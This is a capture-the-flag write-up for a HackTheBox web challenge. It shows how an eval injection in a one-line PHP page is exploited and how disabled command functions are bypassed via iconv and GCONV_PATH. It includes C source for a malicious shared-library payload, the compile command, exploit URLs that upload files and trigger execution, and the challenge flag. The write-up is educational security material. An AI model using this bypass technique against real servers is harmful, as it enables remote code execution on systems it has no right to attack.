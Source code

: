 # one line php challenge (Web)

![date](https://img.shields.io/badge/date-06%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-hard-red)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag

``
HTB{iconv_r34lly_b3_d01ng_us_lik3_th4t}
``

## Solution

We're given a a web page where some php code is displayed. Basically if we set the bottle emoji GET parameter then eval will be executed and prints whatever the get parameter has assigned to pen emoji variable.

![challinfo](1.png "Challenge Info")

So we'll simply to execute commands with some known php functions (system, shell_exec).

![challinfo](2.png "Challenge Info")

But we get the warning that for security reasons we can't execute this function. Same applies for every other function with command execution capability, cause at the Dockerfile the configure of PHP runs with --disable-all parameter which disables all these functions.

So we can't execute command. Sad.

But next to this it has the --with-iconv parameter, and while searching for bypasses for this we came to this interesting [gist](https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80). It uses iconv to execute some payload on the server.

First we'll need to make the payload.

We know we can read the flag by executing the `/readflag` command so we can try to print it's output to a file in  /www

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  system("/readflag > /www/test");
}
```

We can compile that using `gcc payload.c -o payload.so -shared -fPIC`

Then in order to upload the payload we can simulate a form with the following eval payload:

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;echo%20file_put_contents("/tmp/payload.so",file_get_contents('php://input'));`

and we'll also need to upload a `gconv-modules` file, also to the /tmp folder:

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;echo%20file_put_contents("/tmp/gconv-modules",file_get_contents('php://input'));`

Then we only have to execute the payload and see if it printed anything to /test

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;putenv(%22GCONV_PATH=/tmp%22);iconv(%22payload%22,%20%22UTF-8%22,%20%22whatever%22);`

![flag](https://github.com/INSSec-UniWA/Writeups/raw/htb-unictf-2021-finals/HTB-UniCTF-2021/Finals/Web/one%20line%20php%20challenge/images/4.png "Flag")
